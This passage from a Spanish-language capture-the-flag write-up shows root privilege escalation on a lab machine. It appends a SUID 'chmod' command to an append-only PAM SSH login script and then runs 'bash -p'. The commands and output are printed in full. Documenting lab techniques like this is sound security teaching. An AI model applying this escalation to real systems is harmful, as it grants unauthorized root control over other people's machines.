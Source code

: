 Ahora ¿Cómo sabemos que el script se está ejecutando? Bueno, podemos revisar algunos archivos de configuración (.bashrc, .profile, _/etc_) o buscar el texto `/usr/local/sbin/ssh-alert.sh` de forma recursiva con grep para saber desde dónde se está ejecutando, de la siguiente forma:
```shell
❯ svc_acc@late:~$ grep -r '/usr/local/sib/ssh-alert.sh' / 2>/dev/null
session required pam_exec.so /usr/local/sbin/ssh-alert.sh
```

Podemos ver que está en el archivo '/etc/pam.d/sshd', por lo que ya podemos darnos a la idea de que se está ejecutando cada vez que iniciamos sesión por SSH.

Ahora veamos los permisos de `ssh-alert.sh`:
```shell
❯ svc_acc@late:/usr/local/sbin$ ls -la
total 12
drwxr-xr-x  2 svc_acc svc_acc 4096 Jul 29 16:20 .
drwxr-xr-x 10 root    root    4096 Aug  6  2020 ..
-rwxr-xr-x  1 svc_acc svc_acc  433 Jul 29 16:20 ssh-alert.sh

❯ svc_acc@late:/usr/local/sbin$ lsattr ssh-alert.sh 
-----a--------e--- ssh-alert.sh
```

Aparentemente tenemos permisos de escritura `-rwxr-xr-x`, sin embargo listando los atributos del archivo, podemos ver que tiene la letra _a_, esto quiere decir que no podemos modificar nada de lo que tiene un archivo, aún así, al script se le puede agregar nueva información. Si quisieramos convertirnos en root podríamos hacer lo siguiente:
```shell
svc_acc@late:/usr/local/sbin$ echo 'chmod u+s /bin/bash' >> /usr/local/sbin/ssh-alert.sh
```

Escribirmos en el archivo (ssh-alert) que queremos darle permisos SUID al binario _/bin/bash_
Salimos de la sesión, y volvemos a iniciar con el mismo usuario:
```shell
❯ svc_acc@late:/usr/local/sbin$ exit
Connection to 10.10.11.156 closed

❯ ssh svc_acc@10.10.11.156 -i id_rsa

❯ bash-4.4$ /bin/bash -p
❯ bash-4.4\# whoami
root
```

Cuando iniciamos sesión el código es interpretado, asigna el permiso dado a _/bin/bash_
Ejecutamos _/bin/bash_ con permisos privilegiados (-p) y somos root :D.  
¡Happy Hacking!